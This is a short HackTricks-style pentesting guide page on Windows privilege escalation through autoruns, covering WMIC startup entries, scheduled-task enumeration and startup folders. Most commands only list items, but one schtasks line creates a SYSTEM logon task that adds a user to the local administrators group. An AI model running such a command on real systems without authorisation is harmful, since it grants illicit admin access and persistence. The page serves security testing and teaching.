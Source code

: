 # Privilege Escalation with Autoruns

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## WMIC

**Wmic** can be used to run programs on **startup**. See which binaries are programmed to run is startup with:

```bash
wmic startup get caption,command 2>nul & ^
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
```

## Scheduled Tasks

**Tasks** can be schedules to run with **certain frequency**. See which binaries are scheduled to run with:

```bash
schtasks /query /fo TABLE /nh | findstr /v /i "disable deshab"
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

#Schtask to give admin access
#You can also write that content on a bat file that is being executed by a scheduled task
schtasks /Create /RU "SYSTEM" /SC ONLOGON /TN "SchedPE" /TR "cmd /c net localgroup administrators user /add"
```

## Folders

All the binaries located in the **Startup folders are going to be executed on startup**. The common startup folders are the ones listed a continuation, but the startup folder is indicated in the registry. [Read this to learn where.](privilege-escalation-with-autorun-binaries.md#startup-path)
